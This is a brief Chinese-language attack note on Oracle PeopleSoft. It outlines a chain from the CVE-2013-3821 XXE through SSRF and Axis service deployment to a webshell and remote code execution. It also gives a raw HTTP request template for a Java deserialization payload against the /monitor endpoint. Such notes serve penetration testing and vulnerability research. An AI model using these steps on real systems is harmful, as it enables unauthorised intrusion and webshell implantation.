

主要有两种方式：
### XXE to RCE
#### 原理
```
利用[CVE-2013-3821]/PSIGW/HttpListeningConnector的XXE;

使用XXE的GET型SSRF的功能;

找到Axis服务:/pspc/services

网络访问Axis服务发现Axis需要认证401，转而尝试使用本地访问Axis

访问/psp/ps/signon.html，从响应的Set-Cookie: xxx-80-PORTAL-PSJSESSIONID中提取出localhost监听的Axis端口号: 80

利用Axis的特性，将本需要用POST请求的部署Service的方式利用一个trick用GET型请求替代，实现了使用XXE(GET型SSRF)部署localhost的Axis的Service的目的

使用Axis的copy等指令将webshell转移到指定目录，实现webshell上传

访问webshell，实现RCE.
```

#### Demo


### 反序列化
```http
POST /monitor/%SITE_NAME% HTTP/1.1
Host: PeopleSoft:PORT
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64; rv:51.0)
Gecko/20100101 Firefox/51.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Connection: close
Cookie:a=aa

§JAVA_SERIAL§

%SITE_NAME% - is a PeopleSoft "name" to get it you can use some information
```

### 参考
- [Oracle PeopleSoft漏洞整理](https://mp.weixin.qq.com/s/VfLmgSrry28hx9xrunpp7A)
